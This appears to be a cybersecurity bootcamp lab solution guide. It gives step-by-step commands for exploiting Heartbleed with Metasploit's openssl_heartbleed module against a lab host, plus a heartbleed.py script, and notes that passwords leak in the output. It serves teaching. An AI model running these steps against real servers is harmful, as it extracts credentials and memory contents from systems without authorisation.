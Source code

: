 ## Solution Guide: Exploiting Heartbleed with Metasploit

In this activity, you with gathered data leakage from the Heartbleed vulnerability.
 
---

1. Run the command that launches Metasploit:
 
    - `msfconsole`
 
2. Run the command that performs a search for `heartbleed` exploits:
   
    - `search heartbleed`
 
     ![heart1](Images/heart1.png)
 
3. Run the command that loads the `auxiliary/scanner/ssl/openssl_heartbleed` module:
 
    -   `use auxiliary/scanner/ssl/openssl_heartbleed`
 
4. Run the command that shows the module options:
 
    - `show options`
 
     ![heart2](Images/heart2.png)
 
5. Configure the module's target using the victim's IP address and specify which MSF exploit module to use:
  
     - Run the command that sets the `RHOSTS` option to the given target's IP address:

       - `set RHOSTS 192.168.0.22`
 
    - Run the command that sets the `RPORT` option to the target's port `443`:

       - `set RPORT 443`

    - You'll also want to see the results of the attack: before you run your exploit, enter the command `set verbose true`:

       -  `set verbose true`

6. Run the exploit. What were the results of the scan? Did you see any passwords? 

    - Run `run` or `exploit` 
 
    - Yes, a username and password should be revealed in the output. 

    ![heart3](Images/heart3.png)

#### Bonus

In a new terminal window, switch to the `/opt/heartbleed-example/` directory and run the following command:

  - `./heartbleed.py -n 100 192.168.0.22`


Did you discover any new passwords? Are there differences between running this script and using Metasploit? What are they? 

   - Yes, we discover new passwords. 

      - There are no usernames associated with the passwords.

   - The `heartbleed.py` script does not capture as many bytes of data. 
      
   - The word "password" is cut off.
      


   ![heart4](Images/heart4.png)


____
 
&copy; 2020 Trilogy Education Services, a 2U Inc Brand. All Rights Reserved.

